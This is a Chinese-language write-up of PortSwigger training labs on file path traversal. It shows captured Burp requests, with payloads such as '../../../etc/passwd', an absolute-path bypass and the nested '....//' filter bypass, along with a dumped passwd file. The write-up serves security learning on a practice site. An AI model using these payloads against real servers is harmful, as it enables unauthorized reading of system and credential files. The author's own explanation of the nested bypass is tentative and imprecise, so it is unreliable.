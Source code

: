 #portswigger训练场中file-path-traversal#
漏洞原理：
访问文件中有关键的路径信息，如购物网站中，有图片信息，图片加载基于以下的HTML语句：

    <img src="/loadImage?filename=218.png">

一般图片是存储在/var/www/images/目录下的，该语句即访问/var/www/images/218.png。
若应用没有实现防御目录跨越攻击，攻击者可以请求以下的URL：

    https://insecure-website.com/loadImage?filename=../../../etc/passwd

即后台执行后，访问的语句为：

    /var/www/images/../../../etc/passwd

实现访问passwd的目的。

windows访问文件用反斜杠：

    https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini

###lab1###
展现image的时候有个file-path-traversal漏洞
实现：
在burp的proxy中，打开options，在intercept Server Responses选项中，勾选上intercept responses based on the following rules: Master interception is turned off。勾选上这个才能截断向服务器加载图片的请求，抓到该请求包。一般情况下只会抓到整个网页的请求包。

访问网页，burp抓到如下包：

    GET /image?filename=8.jpg HTTP/1.1
    Host: ac971f401f151ae1c05d37d700e60098.web-security-academy.net
    Cookie: session=N6b7PHmfoHCWrujgeuEgCYP2pNgjn8ID
    Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
    Sec-Ch-Ua-Mobile: ?0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
    Sec-Ch-Ua-Platform: "Windows"
    Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: no-cors
    Sec-Fetch-Dest: image
    Referer: https://ac971f401f151ae1c05d37d700e60098.web-security-academy.net/
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close

将请求中的filename改为../../../etc/passwd，Repeater发送，则得到passwd文件，如下：

    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
    peter:x:12001:12001::/home/peter:/bin/bash
    carlos:x:12002:12002::/home/carlos:/bin/bash
    user:x:12000:12000::/home/user:/bin/bash
    elmer:x:12099:12099::/home/elmer:/bin/bash
    academy:x:10000:10000::/academy:/bin/bash
    messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
    dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin

###lab2###
应用程序会阻止遍历序列，如../../之类被屏蔽，但会将提供的文件名视为相对于默认工作目录。
设法绕过：采用绝对路径访问，用/etc/passwd

实现：burp抓包，filename改为/etc/passwd

###lab3###
应用条带话路径遍历序列

绕过：采用嵌套式路径

payload：....//....//....//etc/passwd

说明：..和/相互抵消，也就是说，....//等同于../   理解不一定对